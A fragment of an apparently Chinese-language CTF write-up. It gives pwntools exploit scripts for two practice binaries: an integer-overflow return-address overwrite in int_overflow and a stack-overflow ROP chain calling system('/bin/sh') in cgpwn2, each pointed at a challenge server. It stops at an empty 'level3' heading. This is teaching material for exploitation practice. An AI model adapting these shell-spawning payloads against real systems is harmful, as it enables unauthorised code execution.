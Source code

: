 该题开启了NX，没有开启PIE和canary。

通过整数溢出漏洞溢出v3，过掉输入长度的校验（在3到8之间），顺便修改返回地址。

exp如下：

```python
from pwn import *
context.log_level = "debug"
p = process("./int_overflow")
p = remote("111.198.29.45", 31580)

magic = 0x0804868B
p.recvuntil("Your choice:")
p.sendline("1")
p.recvuntil("Please input your username:\n")
p.sendline("liwc")
p.recvuntil("passwd:\n")
# gdb.attach(p)
p.send(0x18 * "a" + p32(magic) + (262 - 0x18 - 4) * "b")
p.interactive()

```

## cgpwn2 ##

该题是一个常规的栈溢出，构造很短的rop链即可。这里我使用了一条call system指令配合输入到bss段的/bin/sh字符串实现。

```
.text:0804855A                 call    _system

```

```python
from pwn import *
context.log_level = "debug"
p = process("./cgpwn2")
elf = ELF("./cgpwn2")
p = remote("111.198.29.45", 31688)

p.recvuntil("name\n")
p.sendline("/bin/sh\x00")

p.recvuntil("here:\n")
payload = (0x26 + 4) * "a"
payload += p32(0x804855a)
payload += p32(0x0804A080)
p.sendline(payload)

p.interactive()

```

## level3 ##
